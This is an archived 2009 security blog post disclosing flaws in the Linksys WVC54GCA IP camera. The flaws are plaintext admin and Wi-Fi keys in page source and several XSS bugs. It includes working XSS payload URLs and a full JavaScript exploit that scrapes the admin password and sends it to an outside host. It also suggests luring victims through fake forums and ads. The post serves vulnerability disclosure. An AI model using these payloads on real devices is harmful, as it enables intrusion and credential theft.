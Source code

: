 ```yaml
---
title: Hacking Linksys IP Cameras (pt 4)
author: pagvac
date: Sat, 25 Apr 2009 03:28:38 GMT
template: post.jade
category: fucked
---
```


_This article is a continuation of the following GNUCITIZEN articles, which include an introduction to the topic and also some initial observations: [Hacking Linksys IP Cameras (pt 1)](/blog/hacking-linksys-ip-cameras-pt-1/), [Hacking Linksys IP Cameras (pt 2)](/blog/hacking-linksys-ip-cameras-pt-2/), [Hacking Linksys IP Cameras (pt 3)](/blog/hacking-linksys-ip-cameras-pt-3/)._

There are two types of vulnerabilities I will be releasing today: disclosure of credentials in client-side source code and multiple XSS.

### Disclosure of Credentials in Client-side Source Code

As a consumer of embedded products, I find highly frustrating to see how many devices' web interfaces return passwords back to the browser within HTML source code. I've also seen similar problems in some corporate appliances, but is not such as common problem within the enterprise realm.

Visiting the change admin password page:

    /adm/file.cgi?next_file=pass_wd.htm

    Causes the current admin password to be returned (just view the source code with your browser):

    <input type="password" size="8" maxlength="64" name="admpw" value="**C4mP4ssw0rd**" onKeyDown="chkPsize(this.value.length,64,msg_bigpw)"></pre>`

    Visiting the "Wireless Security Page":

    /adm/file.cgi?next_file=Wsecurity.htm

    Causes the Wi-Fi WEP/WPA/WPA2 encryption key to be returned to the browser:

    <input type="text" name="psk" size="24" maxlength="63" value="**mywirelesskey**">

    Obviously this is bad news, as it means that every time the aforementioned pages are visited, credentials travel the clear (the WVC54GCA IP camera doesn't have SSL/TLS support).

    Now, I know there are people out there who might find these types of issues not worth fixing. The following is the thinking behind their reasoning.

    In the case of the admin password disclosure, some people would argue that this issue wouldn't make a difference security-wise, since the camera uses [basic authentication](http://en.wikipedia.org/wiki/Basic_access_authentication) which transmits credentials in the clear (base64 encoding) anyway.

    In the case of the wireless encryption key disclosure, some individuals point out that if you can sniff the Wi-Fi encryption key, it means that either 1) you're already part of the wireless network which means you must already know the key, or 2) you are part of the network via an ethernet connection which means that you don't need the wireless key at all.

    So why fix these issues then? Well, think of client-side attacks for instance. If you keep reading I'll show you how you can (for instance) use XSS to steal the admin password from the aforementioned page. If the admin password wasn't returned by the web interface, this attack would not be possible, despite basic authentication being used by the camera.

    ### Several XSS bugs

    Yes, XSS is the roach of the Internet, it's everywhere and we can't seem to be able to get rid of it! Of course, Linksys IP cameras are no exception. Finding XSS vulns requires virtually no skills (unless you are trying to bypass a strict filter logic). Also, hunting for XSS vulns can be kind of boring. As pdp usually says, "it's not finding XSS bugs which is interesting, but what you can do with it". I couldn't agree more.

    Boring PoCs:

    /main.cgi?next_file=%3Cimg%20src%3dx%20onerror%3dalert(1)%3E
    /img/main.cgi?next_file=%3Cimg%20src%3dx%20onerror%3dalert(1)%3E
    /adm/file.cgi?next_file=%3Cscript%3Ealert(1)%3C/script%3E
    /adm/file.cgi?todo=xss&this_file=%3cscript%3ealert(1)%3c/script%3e</pre>`

    XSS bug #1 works regardless of the authentication state of the victim user. The rest do require the victim user to be logged-in for the injected JS to run within the context of the camera's domain sandbox.

    As you can see in the first two XSS vulns, we use `img` tags, rather then `script` tags, due to closing `script` tags being filtered. Once again, the developers have chosen to perform filtering against some parameters, albeit poor filtering.

    #### Admin Password theft XSS PoC

    The following is the PoC exploit which steals the admin user's password.

    // **evil.js** : malicious JS file, typically located on attacker's site
    // payload description: steals Linksys WVC54GCA admin password via XSS
    // tested on FF3 and IE7
    // based on code from developer.apple.com
    function loadXMLDoc(url) {
    	req = false;
        	// branch for native XMLHttpRequest object
        	if(window.XMLHttpRequest && !(window.ActiveXObject)) {
        		try {	
    			req = new XMLHttpRequest();
            	} 
    		catch(e) {
    			req = false;
            	}
        	} 
        	// branch for IE/Windows ActiveX version	
    	else if(window.ActiveXObject) {
           		try { 
            		req = new ActiveXObject("Msxml2.XMLHTTP");
          		} 
    		catch(e)  {
            		try {
              			req = new ActiveXObject("Microsoft.XMLHTTP");
            		} 
    			catch(e) {
              			req = false;
            		}
    		}
        	}
    	if(req) {
    		req.onreadystatechange = processReqChange;
    		req.open("GET", url, true);
    		req.send("");
    	}
    }
    // end of loadXMLDoc(url)

    function processReqChange() {
       	// only if req shows "loaded"
        	if (req.readyState == 4) {
            	// only if "OK"
            	if (req.status == 200) { 
    			// dirty credentials-scraping code
    			var bits=req.responseText.split(/\"/);	
    			var gems="";
    			for (i=0;i<bits.length;++i) { 
                                    if(bits[i]=="adm" && bits[i+1]==" value=") {      
                                   		gems+="login="; 
    					gems+=bits[i+2];
                                    }
                                    if(bits[i]=="admpw" && bits[i+1]==" value=") {      
                                           	gems+='&password='; 
    					gems+=bits[i+2];    
                                    }
    			}
    			alert(gems); // this line is for demo purposes only and would be removed in a real attack
    			c=new Image();
    			c.src='http://google.com/x.php?'+gems; // URL should point to data-theft script on attacker's site
            	} 
        	}
    }

    var url="/adm/file.cgi?next_file=pass_wd.htm";
    loadXMLDoc(url);

    http://192.168.1.115/adm/file.cgi?next_file=%3cscript%20src=http://evil.foo/**evil.js**%3e%3c/script%3e

If you capture the traffic while testing the exploit against yourself you will see the admin login and password being sent to google.com:

<div class="screen">![Screenshot eth1 Capturing Wireshark 1](/files/2009/04/screenshot-eth1-capturing-wireshark1.png "Screenshot eth1 Capturing Wireshark 1")</div>

#### Attack Requirements

In order for this exploit to work, the camera admin user must be logged in when the attack occurs. This means that a bit of social engineering is required. For instance, the attacker could setup a forum to help users of the WVC54GCA camera by providing tips, FAQs, etc. If the attacker is serious he could use [black hat SEO](http://www.timesonline.co.uk/tol/driving/article754974.ece) and ad campaigns such as Google AdWords to attract Linksys camera users to visit the site containing the malicious XSS URLs. You get the idea!

### Testing Info

All Disclosure of Credentials and XSS vulnerabilities successfully tested on:

* WVC54GCA
* Firmware V1.00R22 and V1.00R24 (latest available as on 23rd April 2009)
